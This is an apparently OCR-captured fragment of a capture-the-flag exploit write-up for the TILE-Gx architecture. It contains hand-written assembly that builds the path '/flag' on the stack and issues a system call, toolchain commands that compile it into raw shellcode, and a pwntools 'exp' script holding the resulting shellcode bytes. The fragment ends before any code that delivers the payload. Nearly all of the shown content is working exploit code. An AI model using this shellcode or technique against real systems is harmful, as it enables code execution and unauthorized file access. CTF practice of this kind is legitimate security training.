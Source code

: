```s
        addi sp, sp, 8
        st sp,r2
        
        addi sp, sp, 8
        movei r3,0x2f
        st1 sp,r3
        addi sp,sp,1

        movei r3,0x66
        st1 sp,r3
        addi sp,sp,1

        movei r3,0x6c
        st1 sp,r3
        addi sp,sp,1

        movei r3,0x61
        st1 sp,r3
        addi sp,sp,1

        movei r3,0x67
        st1 sp,r3
        addi sp,sp,1

        movei r3,0x00
        st1 sp,r3
        addi sp,sp,1

#       ld r2,r2
        swint1
```

```python
[root@VM-8-11-centos ~]$ tile-linux-gnu-gcc shellcode.s -c 
[root@VM-8-11-centos ~]$ tile-linux-gnu-ld shellcode.o -o shellcode
[root@VM-8-11-centos ~]$ tile-linux-gnu-objcopy -O binary --only-section=.text shellcode  shellcode.text
```

### exp

```python
from pwn import *
import base64
context(log_level='debug')
shellcode  = b"\x00\x30\x48\xd1\xe0\x07\x08\x18\x00\x30\x48\x51\xe1\x07\x08\x18\x00\x30\x48\xd1\xe1\x7f\x09\x18\x00\x30\x48\x51\xdb\x86\x0f\x18"
shellcode += b"\x00\x30\x6c\x33\x00\x40\x1e\xdc\x00\x30\x48\xd1\xe1\x97\x0b\x18\x00\x30\x48\x51\xdb\x0e\x08\x18\x00\x30\x6c\x33\x00\x40\x1e\xdc"
shellcode += b"\x00\x30\x48\xd1\xe1\x2f\x0b\x18\x00\x30\x48\x51\xdb\x0e\x08\x18\x00\x30\x6c\x33\x00\x40\x1e\xdc\x00\x30\x48\xd1\xe1\x0f\x0b\x18"
shellcode += b"\x00\x30\x48\x51\xdb\x0e\x08\x18\x00\x30\x6c\x33\x00\x40\x1e\xdc\x00\x30\x48\xd1\xe1\x27\x0b\x18\x00\x30\x48\x51\xdb\x0e\x08\x18"
shellcode += b"\x00\x30\x6c\x33\x00\x40\x1e\xdc\x00\x30\x48\xd1\xe1\x37\x0b\x18\x00\x30\x48\x51\xdb\x0e\x08\x18\x00\x30\x6c\x33\x00\x40\x1e\xdc"
shellcode += b"\x00\x30\x48\xd1\xe1\x67\x0b\x18\x00\x30\x48\x51\xdb\x0e\x08\x18\x00\x30\x6c\x33\x00\x40\x1e\xdc\x00\x30\x48\xd1\xe1\x0f\x0b\x18"
shellcode += b"\x00\x30\x48\x51\xdb\x0e\x08\x18\x00\x30\x6c\x33\x00\x40\x1e\xdc\x00\x30\x48\xd1\xe1\x3f\x0b\x18\x00\x30\x48\x51\xdb\x0e\x08\x18"
shellcode += b"\x00\x30\x6c\x33\x00\x40\x1e\xdc\x00\x30\x48\xd1\xe1\x07\x08\x18\x00\x30\x48\x51\xdb\x0e\x08\x18\x00\x30\x6c\x33\x00\x40\x1e\xdc"
shellcode += b"\x00\x30\x48\x51\xdb\xbe\x0f\x18\x00\x30\x48\x51\xc0\x06\x08\x18\x00\x30\x48\x51\xe5\xef\x06\x00\x00\x30\x48\x51\xdb\x06\x0f\x18"
```